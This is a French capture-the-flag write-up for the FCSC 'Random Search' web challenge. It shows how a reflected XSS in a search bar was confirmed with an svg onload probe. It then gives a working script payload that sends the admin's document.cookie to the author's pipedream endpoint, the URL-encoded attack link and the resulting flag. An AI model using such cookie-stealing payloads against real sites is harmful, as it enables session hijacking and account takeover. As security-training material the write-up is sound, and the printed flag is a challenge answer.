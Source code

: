 # Random Search
<img src="https://media.discordapp.net/attachments/768928242467340328/840138995673071616/unknown.png"/><br/>
Challenge web super basique, on doit trouver un moyen de voler le cookie de l'administrateur.<br/>
## Résolution
En visitant le site qui nous est donné, je vois deux points intéressants.<br/><br/>
<img src="https://media.discordapp.net/attachments/768928242467340328/840139522376335370/unknown.png?width=1440&height=550"/>
On a un contexte d'XSS plutôt récurrent où on peut contacter l'administrateur.<br/>
On a notamment un searchbar à notre disposition. Je décide m'attaquer dessus.<br/>
Premièrement je teste cette payload ```<svg/onload=prompt();>```.<br/><br/>
<img src="https://media.discordapp.net/attachments/768928242467340328/840140153799311380/unknown.png?width=1440&height=470"/>
Le searchbar est vulnérable aux attaques XSS. On a donc notre point d'injection.<br/>
En premier temps je crée un requestbin sur https://pipedream.com/ <br/>
Cette payload est une redirection vers mon pipedream.<br/><br/>
```<script>document.location="https://enx36kg9aihcldt.m.pipedream.net?cookie="+document.cookie;</script>```<br/><br/>
Je pose la payload dans le paramètre search.<br/><br/>
```http://challenges2.france-cybersecurity-challenge.fr:5001/index.php?search=%3Cscript%3Edocument.location%3D%22https%3A%2F%2Fenx36kg9aihcldt.m.pipedream.net%3Fcookie%3D%22%2Bdocument.cookie%3B%3C%2Fscript%3E```<br/><br/>
J'envoie ce lien dans le contact et après quelques minutes j'ai un retour sur mon pipedream.<br/>
Et hop je vois le flag dans le header cookie.<br/><br/>
```?cookie=admin=FCSC{4e0451cc88a9a96e7e46947461382008d8c8f4304373b8907964675c27d7c633}```
